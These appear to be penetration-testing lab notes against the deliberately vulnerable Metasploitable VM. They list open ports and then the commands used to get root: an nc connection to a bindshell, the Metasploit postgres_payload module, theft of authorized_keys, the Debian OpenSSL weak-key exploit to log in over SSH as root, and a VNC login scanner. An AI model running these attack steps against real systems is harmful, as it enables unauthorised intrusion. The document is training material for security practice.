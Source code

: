   1524/tcp open  bindshell   Metasploitable root shell
---
  
  nc 192.168.130.134 1524 
  
  whoami >> root 
  
  
  
 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
 ---
 Could not find any vulnerabilities matching this version
 
 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
---
 
searching the MSF i found a module for remote shell 
 
 msf >> use exploit/linux/postgres/postgres_payload
 
 set RHOST 192.168.1.9
 
 run 
 
 whoami >> postgres
 
 now attend previllige esclation
 
 cat /root/.ssh/authorized_keys
 
 copy the rsa key
 
 search exploit database for openssl 
 
 download  the exploit 5622.tar.bz2

https://www.exploit-db.com/exploits/5720
  
 tar -jxvf 5622.tar.bz2
 
 grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w *.pub
 
 now we got our key 57c3115d77c56390332dc5c49978627a-5429.pub

 attempt to connect as a root
 
 ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@192.168.1.9 
 
 whoami >> root

 5900/tcp open  vnc         VNC (protocol 3.3)
----
  MSF : search vnc 3.3
  
  use auxiliary/scanner/vnc/vnc_login
  
  set THost 192.168.1.9
  
  Run 
  